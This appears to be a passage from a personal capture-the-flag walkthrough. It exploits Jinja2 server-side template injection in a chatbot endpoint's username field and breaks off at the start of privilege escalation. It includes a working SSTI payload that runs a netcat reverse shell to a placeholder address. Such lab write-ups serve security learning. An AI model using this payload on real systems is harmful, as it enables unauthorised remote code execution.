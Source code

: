 Let's try to check the behavior of the endpoint:

![[Pasted image 20250226160121.png]]

As known, it requires a POST request, let's send one with empty data:

![[Pasted image 20250226160238.png]]

If we change our username to `admin` this happens:

![[Pasted image 20250226160324.png]]

We get an error message saying: `Sorry, admin, our chatbot server is currently under development.`

But, if we analyze the error message, we see that our input gets reflected in the response the endpoint is giving us, let's change the username to test and check if its true:

![[Pasted image 20250226160441.png]]

And that's correct, let's test for `SSTI`:

![[Pasted image 20250226160538.png]]

We got it, this is vulnerable to SSTI, in this case, we are facing Jinja2, let's take a look at my old notes from HTB BBHP which talks about this: 

[[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/Server-Side Attacks/SSTI/Exploiting SSTI - Jinja2.md|Exploiting Jinja2]]

For example, let's try to read the web application configuration:

![[Pasted image 20250226161449.png]]

Nice, now, our next step is getting a shell:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f').read() }}
```

After we send this:

![[Pasted image 20250226161615.png]]

We got a shell as `azrael`, let's begin privilege escalation.

# PRIVILEGE ESCALATION
---

First step would be getting an [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stable shell]]:

![[Pasted image 20250226161731.png]]

There is our first flag:
